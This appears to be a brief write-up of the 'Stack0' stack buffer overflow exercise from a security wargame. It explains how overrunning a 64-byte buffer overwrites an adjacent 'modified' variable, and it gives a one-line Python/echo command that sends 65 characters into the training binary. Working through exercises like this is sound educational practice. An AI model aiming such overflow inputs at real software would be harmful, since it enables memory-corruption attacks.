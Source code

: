 #### Stack0

In the stack, the buffer is filled with 64 characters, then the next position is the "modified" varible, where you can modify it accesing the next positions of the stack

**Stack**
<-- BUFFER (64) --><-- modified (8) -->
**Result**
<-- XXXXXXX...XXXXXXXXXXodified (8) -->

```bash
echo `python -c 'print("X"*65)'` | ./stack0
```
